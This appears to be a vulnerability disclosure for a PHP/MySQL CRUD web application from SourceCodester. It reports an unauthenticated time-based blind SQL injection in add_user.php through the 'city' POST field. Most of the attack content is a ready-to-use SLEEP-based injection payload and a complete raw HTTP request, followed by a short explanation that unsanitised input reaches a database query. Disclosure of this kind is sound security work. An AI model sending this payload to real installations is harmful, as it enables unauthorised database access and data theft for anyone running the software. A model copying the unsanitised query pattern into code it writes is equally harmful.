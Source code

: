 # CRUD (Create, Read, Update, Delete) Without Page Reload/Refresh Using PHP and MySQL with Source Code - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17146/crud-create-read-update-delete-without-page-reloadrefresh-using-php-and-mysql-source-code

http://localhost//add_user.php   -----> POST -----> 'city' can control some city parameters

Payload:username=1&email=2&mobile=3&city=4' AND (SELECT * FROM (SELECT(SLEEP(10)))a) AND '1'='1

Running this load will result in a 10 second delay in the database execution. This indicates that the malicious SQL statement has been successfully executed in the database, allowing for time based SQL blind injection queries in the database.

```r
POST /add_user.php HTTP/1.1
Host: www.crud-without-refresh-reload.com:8088
Content-Type: application/x-www-form-urlencoded
Content-Length: 87

username=1&email=2&mobile=3&city=4' AND (SELECT * FROM (SELECT(SLEEP(10)))a) AND '1'='1
```

![1](/img/CRUD/1.png)

The 6th line of the add_user.php file<? The PHP method retrieves user input from the POST element. Then, the value of this element will be passed to the code without proper purification or validation, and ultimately in line 9 of the add_user.php file<? Used for database queries in PHP methods. This leads to SQL injection attacks.

![2](/img/CRUD/2.png)
